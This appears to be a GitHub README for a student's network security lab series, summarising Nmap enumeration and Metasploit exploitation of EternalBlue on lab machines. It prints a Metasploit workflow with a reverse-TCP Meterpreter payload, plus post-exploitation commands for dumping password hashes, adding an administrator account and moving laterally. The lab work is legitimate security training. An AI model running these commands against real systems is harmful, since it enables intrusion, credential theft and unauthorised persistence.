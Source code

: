 # Ethical-hacking-lab-series
Hands-on network security labs covering enumeration, exploitation (EternalBlue, buffer overflows), malware analysis, web app testing, compliance scanning, and SIEM monitoring — using tools like Nmap, Metasploit, Burp Suite, SQLMap, Cuckoo Sandbox, and Wazuh.

# 🔐 Network Security Lab – Enumeration, Exploitation & Post-Exploitation

This project simulates real-world network attacks in a controlled virtual lab using **Nmap, NetBIOS tools, and Metasploit**. It walks through enumeration, vulnerability analysis, exploitation, and post-exploitation tasks — focusing on Windows XP and Metasploitable targets.

---

## 📖 About This Project

This repository is a collection of my **Network Security & Offensive Security Labs**, completed as part of my academic and independent cybersecurity training. The labs simulate real-world attack and defense scenarios using industry-standard tools and techniques. Each task was performed in a **controlled virtual environment**, ensuring both ethical practices and technical depth.

---

## ⚙️ Lab Environment

| System         | Role             | IP Address        |
|----------------|------------------|-------------------|
| Kali Linux     | Attacker         | ###.###.###.#     |
| Metasploitable | Vulnerable Host  | ###.###.###.#     |
| Windows XP     | Legacy Target    | ###.###.###.#     |
 
---

## 🧩 Topics Covered

Nmap Enumeration  
NetBIOS Scanning  
Metasploit Exploitation  
MS17-010  
EternalBlue  
Buffer Overflow  
Integer Overflow  
GDB  
DNS Footprinting  
Maltego  
SpiderFoot  
MBSA  
SCM  
Nessus  
OpenVAS  
Nexpose  
Retina  
Security Compliance  
Vulnerability Scanning  
Malware Analysis  
Cuckoo Sandbox  
Burp Suite  
SQL Injection  
XSS  
CSRF  
SQLMap  
Web Application Testing  
Wazuh  
SIEM  
Threat Detection  
Post-Exploitation  
Privilege Escalation  
Lateral Movement

---

## 🧪 Project 1: Enumeration Using Nmap & NetBIOS

### ✅ Objectives
- Discover live hosts
- Identify open ports and services
- Detect service versions for CVE mapping
- Extract NetBIOS/SMB information

### 🧰 Tools & Commands
- `nmap -sn` – Host discovery
- `nmap -sV -p-` – Full port scan + service version detection
- `nmap -sC` – Default NSE script scan
- `nbtscan -v` – NetBIOS details
- `nmap --script smb-os-discovery.nse` – SMB/OS information

---

## 💣 Project 2: Exploiting Vulnerabilities with Metasploit

### ✅ Objectives
- Identify and exploit MS17-010 vulnerability (EternalBlue)
- Gain SYSTEM access via Meterpreter shell
- Perform post-exploitation tasks (hashdump, privilege escalation, lateral movement)

### 🧰 Key Exploit Workflow
```bash
msfconsole
search ms17_010
use exploit/windows/smb/ms17_010_psexec
set RHOST 192.168.217.132
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.217.128
run
```

### 🔑 Post-Exploitation Steps
- `sysinfo` – System information
- `hashdump` – Extract SAM hashes
- `net user` – Enumerate users
- `net localgroup Administrators attacker /add` – Privilege escalation
- `net view`, `dir \\target\share` – Lateral movement & shared resource access

---

## 📌 Key Takeaways

- ✅ Enumerating service versions is critical for CVE-based targeting
- ✅ Unpatched systems like Windows XP are highly vulnerable
- ✅ SMBv1 and misconfigured shares expose serious risks
- ✅ Post-exploitation provides insight into real-world attacker behavior

---

## 🛠️ Tools Used

| Tool         | Purpose                          |
|--------------|----------------------------------|
| Nmap         | Scanning & enumeration           |
| NetBIOS/NBTScan | Legacy info gathering         |
| Metasploit   | Exploitation & payload delivery  |
| Meterpreter  | Post-exploitation interaction    |
| GDB          | Binary analysis and debugging    |
| SQLMap       | Automated SQL injection testing  |
| Burp Suite   | Web vulnerability scanning       |
| Nessus       | Vulnerability scanning           |
| OpenVAS      | Open-source vuln scanning        |
| Cuckoo Sandbox | Malware behavior analysis       |
| Wazuh        | SIEM/log analysis and detection  |
| SpiderFoot   | Automated OSINT & recon          |
| Maltego      | Infrastructure mapping and OSINT |

---

## 📄 Report
The full lab report is included in this repo as a PDF. It contains screenshots, commands used, and detailed output for every step.

> ⚠️ **Disclaimer**: All tasks were performed in an isolated lab for educational purposes only.

---

**#CyberSecurity #EthicalHacking #PenetrationTesting #Metasploit #Nmap #WindowsXP #EternalBlue #CTF #Infosec #RedTeam #LabProject**
